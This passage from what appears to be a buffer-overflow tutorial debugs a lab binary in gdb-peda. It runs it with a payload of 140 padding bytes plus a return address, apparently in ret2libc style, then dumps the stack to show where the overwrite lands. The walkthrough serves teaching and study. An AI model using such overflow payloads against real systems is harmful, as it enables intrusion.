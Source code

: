 ## WHERE IS MY UMBRELLA ?

As I often say, don't take my word for it. Firstly because I could lie to you (_niark!_), And secondly because I could be wrong (_much more likely_). So let's check together what happens in memory at the end of **funcMyLife()**.
{: .text-justify}

```shell
user1@kali:~$ gdb bfpoc
gdb-peda$ pdisass funcMyLife
[...]
0x08048589 <+117>: leave
0x0804858a <+118>: ret
gdb-peda$ break *0x08048589
Breakpoint 1 at 0x8048589: file ./bfpoc.c, line 30.
gdb-peda$ run $(python -c 'print "a"*140+"\xe0\x6d\xe7\xf7"')
[...]
Breakpoint 1 at 0x8048589
gdb-peda$ x/100xg $esp
0xffffd550: 0x6161616161616161 0x6161616161616161 
0xffffd560: 0x6161616161616161 0x6161616161616161 
0xffffd570: 0x6161616161616161 0x6161616161616161 
0xffffd580: 0x6161616161616161 0x6161616161616161 
0xffffd590: 0x6161616161616161 0x6161616161616161 
0xffffd5a0: 0x6161616161616161 0x6161616161616161 
0xffffd5b0: 0x6161616161616161 0x6161616161616161 
0xffffd5c0: 0x6161616161616161 0x6161616161616161 
0xffffd5d0: 0x6161616161616161 0xf7e76de061616161 <-- notice "7e76de0"
0xffffd5e0: 0xffffd6a4ffffd700 0xf7e3d39dffffd6b0 
0xffffd5f0: 0xf7fb2000ffffd610 0xf7e25a6300000000
 
[...]
 
0xffffd7d0: 0x622f746f6f722f00 0x61616100636f7066
0xffffd7e0: 0x6161616161616161 0x6161616161616161 
0xffffd7f0: 0x6161616161616161 0x6161616161616161 
0xffffd800: 0x6161616161616161 0x6161616161616161 
0xffffd810: 0x6161616161616161 0x6161616161616161 
0xffffd820: 0x6161616161616161 0x6161616161616161 
0xffffd830: 0x6161616161616161 0x6161616161616161 
0xffffd840: 0x6161616161616161 0x6161616161616161 
0xffffd850: 0x6161616161616161 0x6161616161616161 
0xffffd860: 0x6161616161616161 0x434c00f7e76de061 <-- notice "7e76de0"
```

This is the state of memory before the **leave** instruction begins to clean. As you can see, our buffer is present twice:
{: .text-justify}

1. In the space reserved for the argument passed to the function funcMyLife (**const char * arg**) => Address **<span style="color:blue">0xffffd7dd</span>**
2. In the space reserved for the variable buffer [**<span style="color:red">128</span>**] => Address **<span style="color:blue">0xffffd550</span>** .
